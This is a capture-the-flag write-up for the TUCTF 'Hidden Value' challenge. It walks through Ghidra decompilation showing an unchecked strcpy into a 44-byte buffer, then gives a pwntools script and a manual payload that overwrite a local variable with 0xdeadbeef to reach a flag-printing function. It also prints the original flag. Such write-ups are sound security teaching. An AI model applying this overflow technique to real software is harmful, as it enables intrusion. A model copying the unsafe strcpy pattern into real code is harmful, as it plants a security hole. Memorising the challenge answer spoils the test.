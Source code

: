 # Hidden Value

## Challenge Description
```text
Easy

There's a hidden value in this program, can you find it?
nc chal.tuctf.com 30011
```

## Protections
The NX is enabled so can't execute shellcode on the stack but it won't bother us
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ checksec hidden-value 
[*] '/home/vein/tuctf/pwn_hidden-value/hidden-value'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## First Look
We run the program and that what it looks like:
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value            
Enter your name: leo
Hello, leo
! Nothing special happened.
```
## Static Analysis in Ghidra

We open the program in Ghidra and we go directly to main to see what is happening
```c

undefined8 main(void)

{
  char local_78 [112];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  printf("Enter your name: ");
  fgets(local_78,100,stdin);
  greet_user(local_78);
  return 0;
}
```
We see that after we insert our name in the program,one function is called with it as function's input -> greet_user(local_78);

```c
void greet_user(char *param_1)

{
  char local_38 [44];
  int local_c;
  
  local_c = 0x12345678;
  strcpy(local_38,param_1);
  if (local_c == L'\xdeadbeef') {
    hidden_command();
  }
  else {
    printf("Hello, %s! Nothing special happened.\n",local_38);
  }
  return;
}
```

```c
void hidden_command(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Congratulations! You have executed the hidden command.");
  local_10 = fopen("flag","r");
  fgets(local_78,100,local_10);
  printf("The flag is: %s\n",local_78);
  return;
}
```
Here is the problem. We don't have immediately in the main a buffer overflow but in the buffer of main will cause a bof in greet_user() cause in the
first one the buffer size is 112 and the others is 44. So after 44 bytes we have a bof and we can overwrite the value of local c to deadbeef to execute
hidden_command() funtion that will give us the flag

## Exploitation

Here is the python script

```python
#!/usr/bin/env python3
from pwn import *

p = process('./hidden-value')  # local now cause i'm doing the writeup long time after the ctf :) 
#p = remote('chal.tuctf.com', 30011) 
param = 0xdeadbeef # the word that we want to inject to execute hidden_command() and take the flag
padding = b'a' * 44

payload = flat(
	padding,
	param
	)

p.sendline(payload)
print(p.recvall())
```

```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./exploit.py
[+] Starting local process './hidden-value': pid 2908
[+] Receiving all data: Done (109B)
[*] Stopped process './hidden-value' (pid 2908)
b'Enter your name: Congratulations! You have executed the hidden command.\nThe flag is: fake{fl4g_f0r_t3st1ng}\n\n'
```

I also made manual payload for fun
```bash
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ python2 -c print"'a' * 44 + '\xef\xbe\xad\xde'"> payload

┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value < payload                                
Enter your name: Congratulations! You have executed the hidden command.
The flag is: fake{fl4g_f0r_t3st1ng}

zsh: segmentation fault  ./hidden-value < payload
```

The original flag was: TUCTF{pr4cti4l_buffer_overrun}








